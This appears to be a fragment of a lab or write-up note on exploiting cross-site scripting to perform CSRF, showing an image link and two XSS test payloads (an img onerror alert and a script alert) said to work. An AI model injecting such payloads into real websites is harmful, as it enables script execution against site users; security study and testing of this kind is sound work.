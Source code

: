 ![img](images/Exploiting%20XSS%20to%20perform%20CSRF/4.png)


These payload work:

```
</p><img src=x onerror=alert(1) /><p>
<script>alert(1)</script>
```


